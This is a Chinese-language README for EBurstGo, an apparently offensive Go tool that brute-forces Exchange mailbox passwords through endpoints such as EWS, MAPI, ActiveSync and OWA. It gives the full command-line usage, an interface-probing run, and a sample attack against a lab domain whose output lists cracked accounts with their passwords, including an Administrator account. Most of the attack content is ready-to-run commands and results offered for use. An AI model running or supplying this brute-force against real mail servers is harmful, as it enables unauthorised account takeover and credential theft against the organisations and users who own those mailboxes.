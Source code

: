 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目利用 Go 语言进行重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell # 后期支持
```

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检查目标 Exchange 服务器可用接口
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange 服务器接口
  -pass string
    	密码字典
  -thread int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	用户名字典
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[-] 不存在 https://192.168.30.11/owa/auth.owa 接口
[+] 存在 https://192.168.30.11/ews 接口, 可以爆破
[+] 存在 https://192.168.30.11/mapi 接口, 可以爆破
[+] 存在 https://192.168.30.11/oab 接口, 可以爆破
[-] 不存在 https://192.168.30.11/owa/auth.owa 接口
[+] 存在 https://192.168.30.11/powershell 接口, 可以爆破
[+] 存在 https://192.168.30.11/autodiscover 接口, 可以爆破
[+] 存在 https://192.168.30.11/Microsoft-Server-ActiveSync 接口, 可以爆破
[+] 存在 https://192.168.30.11/rpc 接口, 可以爆破
```

brute

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user users.txt -pass pass.txt -mode ews
[*] 使用 ews 接口爆破 https://192.168.30.11
[+] 成功 Administrator:abcd1234!@#$
[+] 成功 Alice:Alice123!
[+] 成功 Bob:Bob123!
[+] 成功 Marry:Marry123!
[*] 耗时 4.40084275s
```

协程数不建议开太大, 可能会漏报 (待解决?)

等后面有时间修一修 bug, 还有优化代码结构